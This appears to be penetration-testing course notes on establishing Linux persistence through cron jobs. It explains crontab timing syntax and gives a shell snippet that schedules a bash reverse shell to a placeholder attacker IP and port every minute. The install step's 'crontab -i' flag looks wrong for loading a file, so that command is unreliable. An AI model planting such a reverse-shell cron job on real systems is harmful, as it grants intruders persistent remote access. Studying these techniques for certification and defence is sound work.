 # Establishing Persistence via CRON Jobs
Cronjobs are programs or scripts which users can schedule to run at specific times or intervals.  Cronjobs are managed by the CRON daemon, which is a background process that constantly checks a configuration file called the "crontab."

![Cron Anatomy](https://github.com/ab3lsec/eJPTv2CourseNotes/assets/87868050/09af5aa2-4cc9-4730-a097-9a9a462f3ab6)


`* * * * *`  means that the cronjob will run every minute.

##### HOW TO GAIN PERSISTENCE USING CRONJOBS:

Once we gain access to a shell either Root or a normal user shell. Every User on the system has the privilege to create Cronjobs for themselves. These created cronjobs can found in local crontab `crontab -l`.
<br>
Using this privilege we can execute a reverse shell one liner and create it as a Cronjob. Such that it runs every minute and connect to he local NETCAT listener.

```sh
# CREATE A NEW CRONJOB AND STORE IT
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] 0>&1' "> [FILENAME]

#NOW ADD THE CRONJOB TO THE CRONTAB
crontab -i [FILENAME]

# CHECK THE WHETHER ITS UPDATED
crontab -l
```
